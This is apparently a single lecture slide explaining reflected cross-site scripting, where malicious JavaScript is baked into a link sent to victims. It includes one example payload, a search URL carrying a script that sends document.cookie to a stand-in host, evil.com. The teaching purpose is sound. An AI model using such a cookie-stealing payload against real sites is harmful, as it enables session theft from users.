

34
# Reflected XSS
Attacker could craft user input which actually contains evil client-side code such as Javascript.
The malicious code will be baked into a hyperlink that is presented to the end-user. This link might be delivered to victims via another route, such as in an e-mail message, or on some other web server.
| http://www.google.com/search?keyword=<script>document.images[0].src="http://evil.com/steal?cookie="+ document.cookie;<script> |
| --- |